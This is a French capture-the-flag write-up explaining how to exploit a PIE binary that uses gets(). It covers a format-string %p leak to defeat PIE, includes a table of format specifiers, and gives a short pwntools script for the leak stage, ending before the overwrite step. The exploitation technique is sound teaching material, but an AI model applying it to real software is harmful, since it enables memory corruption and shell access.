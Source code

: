 
Il est possible d'identifier deux endroits où la fonction "gets()" est utilisée: la fonction `welcome()` et `AAAAAAAA()`. La fonction `WINgardium_leviosa()` quant à elle permet de récupérer l'accès à un bash.

La fonction `gets()` est considérée comme dangereuse, car il est possible de lui passer un buffer en paramètre, mais sans préciser la taille. C'est pourquoi il est très dangereux d'utiliser cette fonction sur une entrée utilisateur.

Etant donné que la PIE est activé sur ce binaire, il est impossible de connaitre l'adresse de la fonction win sans leak de mémoire. C'est pour cela que le `gets(read_buf);` de la fonction `welcome()` sera utilisé.
Lorsque la mémoire sera leaké, le second `gets()` permettra de jump sur la fonction de win et ainsi récupérer le flag. Ci-dessous un schéma reprenant ce qui a été dit auparavant:

![](/lib/images/writeups/german_fcsc/pwn//upload_0adf691915300153f6410196c0a93d3b.png)

## Contournement de la PIE

Afin de contourner la PIE, il faut faire fuiter la mémoire grâce à l'utilisation du mécanisme "format string". Ces "chaines de format" permettent aux développeurs de pouvoir formater leur variable pendant l'affichage.

Parmis celles qui vont nous intéresser, il est possible de retrouver: 

| Format string | Usage |
| ------------- | ----- |
| %s / %x       | Permet de lire une donnée d'un pointeur connu sous forme de chaine de carctère ou hexa  |
| %n            | Permet d'écrire de la donnée à un pointeur connu  |
| %p            | Permet d'afficher les pointeurs sur la stack      |

Les deux premiers types de chaines de format permettent de lire et écrire à un pointeur connu. Or, ce n'est pas le cas ici. C'est pourquoi on va utiliser `%p`.

Pour tout ce qui est exploitation de binaire et gestion des bytes, python2 reste plus simple à utiliser. De plus, la librairie "pwntools" offre plus de possibilité en python2.

```python
#!/usr/bin/python2

from pwn import *

FORMATSTRING = "37:%37$p 38:%38$p 39:%39$p 40:%40$p 41:%41$p 42:%42$p 43:%43$p 44:%44$p 45:%45$p 46:%46$p 47:%47$p 48:%48$p 49:%49$p 50:%50$p 51:%51$p 52:%52$p 53:%53$p 54:%54$p 55:%55$p 56:%56$p 57:%57$p 58:%58$p 59:%59$p 60:%60$p 61:%61$p 62:%62$p 63:%63$p 64:%64$p"

p = process('./pwn1')
print(p.recvuntil('name:'))
p.sendline(FORMATSTRING)
leak = p.recvuntil('spell:')
print(leak.split(' '))
raw_input("gdb attach")
p.interactive()
```
